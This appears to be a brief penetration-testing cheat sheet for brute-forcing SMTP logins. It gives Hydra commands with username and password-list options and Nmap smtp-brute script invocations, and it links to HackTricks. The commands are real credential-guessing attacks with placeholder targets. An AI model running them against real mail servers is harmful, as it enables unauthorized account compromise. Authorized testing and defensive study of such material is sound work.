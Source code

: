 # SMTP

## 01 - Hydra

`$ hydra -U smtp`

`$ hydra -V -l <username> -P passwords.txt <IP> smtp`

`$ hydra -S -v -V -l <username> -P passwords.txt -s 587 <IP>`

## 02 - Nmap

`$ nmap -p 25 --script smtp-brute --script-args smtp-brute.auth=<LOGIN | PLAIN | CRAM-MD5 | DIGEST-MD5 | NTLM>`

`$ nmap -p 25 --script smtp-brute --script-args smtp-brute.auth=LOGIN,userdb=users.txt,passdb=passwords.txt <IP>`

## References

- [Brute Force SMTP](https://book.hacktricks.xyz/brute-force#smtp)